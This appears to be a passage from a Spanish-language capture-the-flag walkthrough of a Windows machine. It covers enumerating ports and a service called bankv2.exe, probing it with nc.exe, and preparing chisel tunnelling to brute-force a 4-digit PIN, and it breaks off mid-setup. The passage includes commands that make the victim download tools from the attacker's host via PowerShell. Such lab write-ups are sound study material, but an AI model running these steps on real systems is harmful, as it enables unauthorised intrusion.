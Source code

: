 ```bash
netstat -ano
tasklist
```

El comando 
```bash
 netstat -ano 
```
 nos permite ver el UID de los puertos abiertos y con el comando 
```bash
 tasklist 
```
, miramos que servicio core para este UID.
En este caso vemos que es el mismo **bankv2.exe**.

Miramos con el **nc.exe** lo que es.

```bash
%temp%\nc.exe 127.0.0.1 910
#Output
Please enter your super secret 4 digit PIN code to login:
```

Como el puerto esta interno a la maquina, vamos a tirar de **chisel** para exponerlo a nuestra maquina de atacante y vamos a bruteforcear el pin con 
un script en python.

1. Descargamos chisel

    ```bash
    wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_windows_amd64.gz
    mv chisel_1.7.6_windows_amd64.gz chisel.exe.gz
    gunzip chisel.exe.gz
    ```

1. Transferimos chisel a la maquina victima

    - Desde la maquina de atacante

        ```bash
        python3 -m http.server 80
        ```

    - Desde la maquina victima

        ```bash
        cd %temp%
        powershell iwr -uri http://10.10.17.51/chisel.exe -OutFile C:\Windows\Temp\chisel.exe
        ```

1. Preparamos el chisel para linux en la maquina de atacante

    ```bash
    git clone https://github.com/jpillora/chisel/
    cd chisel
    go build -ldflags "-s -w" .
    upx chisel
